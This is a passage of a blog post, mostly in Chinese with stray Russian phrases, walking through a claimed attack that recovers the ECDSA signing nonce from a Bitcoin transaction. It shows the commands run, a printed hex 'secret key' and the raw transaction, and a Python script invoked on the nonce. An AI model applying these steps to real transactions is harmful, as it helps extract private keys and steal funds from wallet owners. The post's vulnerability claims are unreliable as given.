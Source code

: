 
<p>現在看到成功的結果，打開文件<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-24-1024x482.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1597"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0x5d4bc1aa9668f2286151499508869fd31e07f4a9e7dd09f5f6dc4634464dd58d

RawTX = 0100000001a60ae2965c16c0a72bb764ec4f6f0dc6acfd3af3f49a73c06ae48ddfe4a7b76b020000006a473044022015e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff0102202d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff019e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<p>我們看到一個銘文<code>"Deployments ECDSA"</code>，表示比特幣區塊鏈交易中存在嚴重漏洞。</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0x5d4bc1aa9668f2286151499508869fd31e07f4a9e7dd09f5f6dc4634464dd58d</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>讓我們用<em>Python</em>腳本檢查一下<code>point2gen.py</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><a href="https://pypi.org/project/ECPy/" target="_blank" rel="noreferrer noopener"><strong>為此，請安裝ECPy</strong></a>橢圓曲線庫：</p>



<pre class="wp-block-code"><code>pip3 install ECPy</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-44-1024x335.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-968"/></figure>



<p>現在讓我們通過指定運行腳本<code>&nbsp;секретный ключ "K" (NONCE)</code>：</p>



<pre class="wp-block-code"><code>python3 point2gen.py 0x5d4bc1aa9668f2286151499508869fd31e07f4a9e7dd09f5f6dc4634464dd58d</code></pre>


